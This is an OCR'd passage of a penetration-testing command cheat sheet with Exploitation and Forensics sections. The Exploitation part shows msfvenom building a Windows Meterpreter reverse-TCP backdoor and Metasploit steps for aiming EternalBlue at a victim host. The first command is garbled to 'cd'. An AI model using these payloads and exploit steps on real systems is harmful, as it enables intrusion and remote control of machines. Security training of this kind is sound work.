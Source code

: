 ```cd```
_Cracks Windows hashes in 'hash_file.txt' using rainbow 'table', leverages precomputed tables for speed._

## Exploitation

```msfconsole```
_Launches the Metasploit Framework console, central hub for managing exploits and payloads._

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=port -f exe > payload.exe```
_Creates a Windows Meterpreter reverse TCP payload saved as 'payload.exe', delivers backdoors to targets._

```exploit -z```
_Runs the selected exploit in Metasploit and remains in session (-z), automates post-exploitation._

```search exploit_name```
_Searches Metasploit for 'exploit_name' (e.g., 'search eternalblue'), finds relevant exploits._

```use exploit/path```
_Selects an exploit by its path (e.g., 'use exploit/windows/smb/ms17_010_eternalblue'), prepares for attack._

```set payload payload/path```
_Sets the payload (e.g., 'set payload windows/meterpreter/reverse_tcp'), defines post-exploit behavior._

```set LHOST ip```
_Sets the local host IP (e.g., 'set LHOST 192.168.1.100'), specifies attacker's IP for callbacks._

```set RHOST ip```
_Sets the remote host IP (e.g., 'set RHOST 192.168.1.10'), targets the victim machine._

```nmap -sV --script vuln host```
_Runs Nmap with vulnerability scripts on 'host', identifies exploitable services and versions._

## Forensics

```binwalk file.bin```
_Analyzes 'file.bin' for embedded files and extracts them (e.g., firmware), key for reverse engineering._

```foremost -i disk.img -o output_dir```
_Recovers files from 'disk.img' into 'output_dir' based on headers, restores deleted data._

```scalpel disk.img -o output_dir```
_Carves files from 'disk.img' into 'output_dir' using predefined patterns, alternative to foremost._

```volatility -f memory.dmp imageinfo```
_Identifies the profile of 'memory.dmp' (e.g., Win7SP1x64), first step in memory forensics._

```volatility -f memory.dmp --profile=profile pslist```
_Lists processes from 'memory.dmp' with specified 'profile', examines running programs at capture time._

```strings file | grep search_term```
_Extracts human-readable strings from 'file' and filters for 'search_term', finds passwords or clues._

```exiftool image.jpg```
_Extracts metadata from 'image.jpg' (e.g., GPS, camera model), uncovers hidden info in files._

```chkrootkit```
_Scans the system for known rootkits, detects persistent threats or backdoors._

```rkhunter --check```
```